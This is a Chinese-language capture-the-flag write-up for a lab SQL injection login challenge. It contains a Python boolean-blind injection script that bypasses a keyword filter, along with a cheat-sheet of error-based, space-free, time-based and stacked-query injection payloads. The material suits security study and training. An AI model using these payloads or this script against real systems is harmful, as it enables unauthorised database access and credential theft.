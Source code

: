 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{login_sqli_is_nice}`

## 思路
1. 访问环境时显示403，可以遍历一下常用的入口文件`index.php、admin.php、webshell.php、login.php`等，此处题目给了提示`login.php、user.php`
2. login.php界面有两种错误反馈，测试出**admin**账户存在
    - 账号或密码错误
    - 账号不存在
3. 与[sql注入-1](./sql注入-1.md)原理相同，判断出用户名处存在字符型sql注入
    ![](./images/sql2-1.png)   
    ![](./images/sql2-2.png)
4. 进一步发现union select注入，由于不展示select到的值，有两个结果作为返回值，开始写脚本进行报错注入。
```python
# -*- coding: utf-8 -*-
# @Date    : 2020-12-18
# @Author  : SuperJason
import requests
import string

url = 'http://092604a0-af99-4453-aedd-215fff67f97e.node3.buuoj.cn/login.php'
flag = ''
trueflag='8bef'
falseflag='5728'
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="

# select过滤
for i in range(1,50):
# 由于服务器限制了访问请求，上述for循环可以每次遍历少一点的数量，例如1-5,5-10,....
    # 可打印字符的ASCII码在33-128之间
    left = 32
    right = 127

    while right - left != 1:
        mid = (right + left) // 2        
        # target = 'select database()'        
        # target = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
        # target = 'select group_concat(column_name) from information_schema.columns where table_name="fl4g"'
        target = 'select flag from fl4g'

        payload = "'and (ascii(substr(({}), {}, 1))>{})#".format(target, i, mid)
        #payload = payload.replace('from', 'frfromom')
        payload = payload.replace('select', 'selselectect')
        #payload = payload.replace('or', 'oorr')
        #payload = payload.replace('where', 'whwhereere')
        # 此处需要通过burpsuite等工具获得post的参数名
        data = {
            "name": "admin"+payload,
            "pass": 1
        }

        content = requests.post(url, data = data).text
        if trueflag in content:
            left = mid
        else:
            right = mid
    flag += chr(right)
    print (flag)

# note
# fl4g,usc
# flag
# n1book{login_sqli_is_nice}

```

## 总结
这道题算是简单题，只对select进行了过滤，而且只是基于报错的注入。现在来扩宽一下sql注入的难度
- 关键字过滤可以用大小写、多重关键字、/**/、concat绕过
    - select、union、sleep、information_schema
    - table、and、or
- 用extractvalue或updatexml报错注入，连接词可以为```and、or、||、&&、^```，末尾可能需要加`%23`，#的url编码。
    - 举一个updatexml的例子，其他与extractvalue相同，`1' and updatexml(1,concat(0x7e,user(),0x7e),1)%23`
    - `1' and extractvalue(1,concat(0x7e,user(),0x7e))%23`
    - `1' and extractvalue(1,concat(0x7e,database(),0x7e))%23`
    - `1' and extractvalue(1,concat(0x7e,version(),0x7e))%23`
    - 无空格、无等号，获得表名 `1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e))%23`
    - 无空格、无等号，获得列名 `1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e))%23`
    - 无空格，正序获得flag`1'^extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e))%23`
    - 无空格，逆序获得flag`1'^extractvalue(1,concat(0x7e,reverse((select(group_concat(password))from(H4rDsq1))),0x7e))%23`
- 普通盲注`"1 and if(ascii(substr((database()),{},1))>{},1,0)%23".format(i, mid)`
- 时间盲注需要用到sleep(n)，盲注通用语句
    - `sql="select(if(ascii(mid((select group_concat(schema_name) from information_schema.schemata),{},1))={},sleep(3),0))".format(str(num), str(ord(char)))`
- 进一步的关键字都被过滤，时间盲注关键字也无效，考虑SQL语句的转码。使用**堆叠注入**的方式执行**16进制编码的SQL语句**。
通用payload如下
    - `1';Set @x=SQL语句;Prepare a from @x;Execute a;#`
    - SQL语句：`concat("SE","lect flag from table")`
    - 注意`SQL语句`如果是16进制需要在前面加`0x`
